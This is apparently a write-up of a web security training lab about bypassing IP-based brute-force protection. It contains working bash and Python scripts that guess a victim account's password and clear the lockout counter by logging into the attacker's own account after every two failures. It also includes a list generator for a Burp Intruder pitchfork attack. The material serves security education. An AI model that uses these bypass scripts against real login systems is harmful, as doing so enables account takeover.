 # Lab: Broken brute-force protection, IP block

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: `wiener:peter`
- Victim's username: carlos
- Candidate passwords
  
Hint: Advanced users may want to solve this lab by using a macro or the Turbo Intruder extension. However, it is possible to solve the lab without using these advanced features.

We made a test request:
![image](https://github.com/user-attachments/assets/1ed07196-7f9b-4aa3-8ce7-69f8e11af98c)

The server blocks us after three invalid login attempts:  
![image](https://github.com/user-attachments/assets/3c6cb504-9e7a-4381-b2de-80e7d1af445f)
**Note:** We know that the server is blocking our IP instead of the user because when we try with our user, we are still blocked:  
![image](https://github.com/user-attachments/assets/8cb0294a-c78d-4632-8b23-ae7fa5870943)

We realize manually that we can reset the counter to 0 by logging in with our credentials before the server blocks us:
![image](https://github.com/user-attachments/assets/d1562628-de39-49bf-a63b-3df16764f112)

We created the following script that performs a password brute force attack, resetting the server's counter to zero whenever 2 failed login attempts are reached:
```bash
#!/bin/bash

url="https://0a40005e033f387d8000fdfe00aa000e.web-security-academy.net/login"
passwords=("123456" "password" "12345678" "qwerty" "123456789" "12345" "1234" "111111" "1234567" "dragon"
           "123123" "baseball" "abc123" "football" "monkey" "letmein" "shadow" "master" "666666" "qwertyuiop"
           "123321" "mustang" "1234567890" "michael" "654321" "superman" "1qaz2wsx" "7777777" "121212" "000000"
           "qazwsx" "123qwe" "killer" "trustno1" "jordan" "jennifer" "zxcvbnm" "asdfgh" "hunter" "buster"
           "soccer" "harley" "batman" "andrew" "tigger" "sunshine" "iloveyou" "2000" "charlie" "robert"
           "thomas" "hockey" "ranger" "daniel" "starwars" "klaster" "112233" "george" "computer" "michelle"
           "jessica" "pepper" "1111" "zxcvbn" "555555" "11111111" "131313" "freedom" "777777" "pass"
           "maggie" "159753" "aaaaaa" "ginger" "princess" "joshua" "cheese" "amanda" "summer" "love"
           "ashley" "nicole" "chelsea" "biteme" "matthew" "access" "yankees" "987654321" "dallas" "austin"
           "thunder" "taylor" "matrix" "mobilemail" "mom" "monitor" "monitoring" "montana" "moon" "moscow")
   
reset_username="wiener"
reset_password="peter"

fail_count=0

for ((i=0; i<${#passwords[@]}; i++)); do
  password="${passwords[i]}" 

 
  full_response=$(curl -s -X POST "$url" \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d "username=carlos&password=$password")

 
  if [[ ! "$full_response" =~ "Incorrect password" ]]; then
    echo "Successful login for password: $password"
  fi


  if [[ "$full_response" =~ "Incorrect password" ]]; then
    fail_count=$((fail_count + 1))
  else
    fail_count=0  
  fi

 
  if [[ $fail_count -ge 2 ]]; then
    curl -s -X POST "$url" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      -d "username=$reset_username&password=$reset_password" > /dev/null
  fi
done
```
We executed the script and obtained the password:
![image](https://github.com/user-attachments/assets/298304e6-0291-42b9-949b-3c8a14c7d835)

We could also to create the following python scrypt:
```python
#!/usr/bin/env python3
import requests


url = "https://0a3a003203e8cf79812b751500770071.web-security-academy.net/login"
own_username = "wiener"
own_password = "peter"
fail_count = 0

with open('passwords.txt', 'r') as f:
    passwords =  [line.strip() for line in f.readlines()]

for password in passwords:
    data = {
            'username': "carlos",
            'password': password
            }
    r = requests.post(url, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})
    full_response = r.text

    if "Incorrect password" not in full_response:
        print(f"Successful login for password: {password}")
        break
    else:
        fail_count += 1
        
    if fail_count == 2:
        data = {
                'username': own_username,
                'password': own_password
                }
        r = requests.post(url, data=data, headers={'Content-Type': 'application/x-www-form-urlencoded'})
        fail_count = 0
```

We could also have used a Burp Suite Intruder Pitchfork Attack by generating the lists (correct credentials every 2 incorrect ones). We will regenerate the lab and proceed to solve it this way.
```python
#!/usr/bin/env python3

print("------ Lista users -----")
for i in range(150):
    if i % 3 == 0 or i % 3 == 1:
        print("carlos")
    else:
        print("wiener")


print("------------------------------------------")
print("----- Lista passwords -----")

with open('passwords.txt', 'r') as f:
    lines =  f.readlines()

i = 0 

for passwd in lines:
    if i % 3 == 0 or i% 3 == 1:
        print(passwd.strip())
    else:
        print('peter')
    i += 1

```

We performed the Pitchfork Attack with Burp Suite Intruder, configuring both payloads with the generated lists:
![image](https://github.com/user-attachments/assets/20630434-b69d-4fdf-92c1-3dd86d40a363)

We log in and complete the lab:
![image](https://github.com/user-attachments/assets/74d0ab86-86dd-4238-a1ca-7b63b2569b87)
